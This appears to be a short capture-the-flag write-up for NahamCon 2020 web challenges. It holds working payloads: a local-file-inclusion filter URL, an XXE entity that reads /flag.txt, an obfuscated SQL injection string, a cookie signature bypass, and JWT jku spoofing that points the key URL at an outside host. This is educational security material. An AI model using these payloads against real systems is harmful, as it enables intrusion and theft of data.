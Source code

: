 # Web 
## Agent 95 (50)

Set user agent as Windows 95:

https://developers.whatismybrowser.com/useragents/parse/2520-internet-explorer-windows-trident

```python
import requests

headers = {
    'Connection': 'keep-alive',
    'Cache-Control': 'max-age=0',
    'Upgrade-Insecure-Requests': '1',
    # windows 95 user agent
    'User-Agent': 'Mozilla/4.0 (compatible; MSIE 5.5; Windows 95; BCD2000)',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9',
    'Accept-Language': 'en-US,en;q=0.9',
}

response = requests.get('http://jh2i.com:50000/', headers=headers, verify=False)
```

## Localghost (75)

Check local storage

![](images/2020-06-17-21-33-43.png)

## Phphonebook (100)

LFI vulnerability:
```
http://jh2i.com:50002/index.php?file=php://filter/convert.base64-encode/resource=index.php
```

~index.php~ contains this juicy bit:
```
<?php
      extract($_POST);

    	if (isset($emergency)){
    		echo(file_get_contents("/flag.txt"));
    	}
    ?>
```

So just add emergency to POST request

## Official Business (125)

```python
def load_cookie():

    cookie = {}
    auth = request.cookies.get("auth")
    if auth:

        try:
            cookie = json.loads(binascii.unhexlify(auth).decode("utf8"))
            digest = cookie.pop("digest")

            if (
                digest
                != hashlib.sha512(
                    app.secret_key + bytes(json.dumps(cookie, sort_keys=True), "ascii")
                ).hexdigest()
            ):
                return False, {}
        except:
            pass

    return True, cookie
```

Thrown exceptions pass the `load_cookie` check, so just send request with no `digest` field in the cookie

## Seriously (125)

https://github.com/gr455/ctf-writeups/blob/master/nahamcon20/seriously.md
- node deserialization vulnerability
- node reversse shell
- (?) ngrok tcp server

## Extraterrestrial (125)

```xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///flag.txt">]>
<message>
<id></id>
<message>&xxe;</message>
<title>xml</title>
</message>
```

## Rejected Sequel (150)

`"/**/union/**/select/**/flag/**/FFROMROM/**/flag/**/WWHEREHERE/**/TRUE/**/or/**/""="
`
## B'omarr Style (200)
## Flag Jokes (200)

Need to set user as admin:
![](images/2020-06-17-23-18-28.png)

We get a JWT token in the cookie, decode it with [JWT Debugger](https://jwt.io):

Header:
```
{
  "alg": "RS256",
  "jku": "http://localhost:5000/static/jwks.json",
  "kid": "sqcE1a9gj9p08zNMR1MWbLLvuaPyUeJEsClBhy7Q4Jc"
}
```

Payload
```
{
  "username": "tom"
}
```

The `jku` is an uri that references the public key used for generating the signature. We can try JWKS spoofing, where we change the ~jku~ field to our own server and see if we get a hit.

`static/jwks.json` returns the following:
```
{
    "keys": [
        {
            "e": "AQAB",
            "kid": "sqcE1a9gj9p08zNMR1MWbLLvuaPyUeJEsClBhy7Q4Jc",
            "kty": "RSA",
            "n": "1bVdpTILcGSahuOL6IJCbUpDZTGFHc8lzQORNLQBXDiRd1cC1k5cG41iR1TYh74cp8HYmoLXy4U2bp7GUFm0ip_qzCxcabUwWCxF07TGsmiFmCUbcQ6vbJvnSZSZGe-RFPgHxrVzHgQzepNIY2TmjgXyqt8HNuKBJQ6NoTviyxZUqy65KtSBfLYh5XzFn3FPemOla8kGBu7moSbUpgO1t3m3LgxBV5y51E1xSSoC7nAYPFrQ9wOTHEh7kGxGUQqKtGswyi2ncH22VcfQkxMA0HerFMPOr2n9eEZEbeJFco9Gp3drAYDCyj0QbkJKGdbl_50cimZ7eXgeyc3lEEXL7Q"
        }
    ]
}
```
Change the header to:

```
{
  "alg": "RS256",
  "jku": "https://postb.in/1592407627895-7120936170686",
  "kid": "sqcE1a9gj9p08zNMR1MWbLLvuaPyUeJEsClBhy7Q4Jc"
}
```

And you can see a hit.

Create new JWT keys with: https://mkjwk.org

And convert JWK to PEM: https://8gwifi.org/jwkconvertfunctions.jsp

Host the public key somewhere and edit the JWT token


## Mongolian BBQ (225)
## Criss Cross (400)
## Trash The Cache (1000)
